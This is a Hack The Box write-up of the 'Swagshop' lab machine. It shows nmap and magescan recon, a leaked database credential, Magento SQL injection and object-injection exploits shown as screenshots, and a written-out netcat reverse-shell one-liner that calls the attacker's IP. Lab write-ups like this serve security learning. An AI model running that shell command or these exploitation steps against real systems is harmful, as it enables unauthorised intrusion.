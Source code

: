 # Hack the Box - Swagshop
```CSS
Machine IP: 10.10.10.140 - Linux

Tags: magento
Vulnerabilities:
  - Magento SQL Injection
  - Magento PHP Object Injection
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.140 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.140
Host is up (0.20s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.140 -oN nmap.deep

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
![image](https://user-images.githubusercontent.com/83878909/230385940-576fb9d4-0154-4a75-af4c-ffeae45b4231.png)


## Magento
- Tool: [magescan](https://github.com/steverobbins/magescan)
```CSS
▶ magescan.phar scan:all http://swagshop.htb
```
- Magento Version Information
![image](https://user-images.githubusercontent.com/83878909/230405839-266cdc0e-97b7-4b08-bd5a-0b2afc29502f.png)
- Sensitive Files
- Path: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230406379-b3b0b66c-61ee-441d-93c7-dc25d708673c.png)
![image](https://user-images.githubusercontent.com/83878909/230406550-166475e5-9eb4-4f61-a20a-02d9a99e6496.png)
- MySQL Credentials: `root:fMVWh7bDHpgZkyfqQXreTjU9` | DB Name: `swagshop`

### Exploit
  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230573995-d8195c5b-bb3f-43aa-922d-b665285d5004.png)
  - Modify exploit
![image](https://user-images.githubusercontent.com/83878909/230575074-34a8d22c-9187-4d74-8831-77f5f98c8340.png)
  - Run Exploit
![image](https://user-images.githubusercontent.com/83878909/230575192-080770c9-d1bc-4cc1-92ac-b2b19458de11.png)
  - Log in page URL: `https://swagshop.htb/index.php/admin`
  - Log in to Admin Panel with creds: `forme:forme`
![image](https://user-images.githubusercontent.com/83878909/230575373-03c3995f-6d22-4d80-b6f0-de065987d98a.png)
  - Admin Panel Accessible
![image](https://user-images.githubusercontent.com/83878909/230575645-6d0c0532-f73f-4b5c-a27e-833c806b0dd7.png)

  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230576847-3317eaae-ea23-4d19-9f95-53fb7da677db.png)
  - Modify Exploit (username, password and install date) The original exploit did not work, modified exploit is in my Exploits repository.
  - Retrieve install date: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230707818-894e563e-de27-4c7a-b528-cf3ec299b1cc.png)
  - Run Exploit
  - Reverse Shell(Bash): `"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"`
![image](https://user-images.githubusercontent.com/83878909/230712785-8d0eb9cb-b64b-458b-9764-0cee1e3cedfc.png)

